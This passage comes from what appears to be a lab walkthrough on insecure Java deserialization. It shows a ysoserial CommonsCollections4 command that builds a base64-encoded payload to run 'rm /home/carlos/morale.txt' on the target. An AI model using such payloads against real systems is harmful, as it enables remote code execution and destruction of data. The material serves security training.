 ![Insecure deserialization](../img/indes_13.png)

Now we can craft a payload using [ysoserial tool](../ysoserial.md) (see debugging and installation there).

As we have a java version 11, our payload will be:

```
java -jar ysoserial-all.jar CommonsCollections4 "rm /home/carlos/morale.txt" | base64 -w 0 > test.txt

# -w 0 : it will remove the end of lines.
```

![Insecure deserialization](../img/indes_14.png)
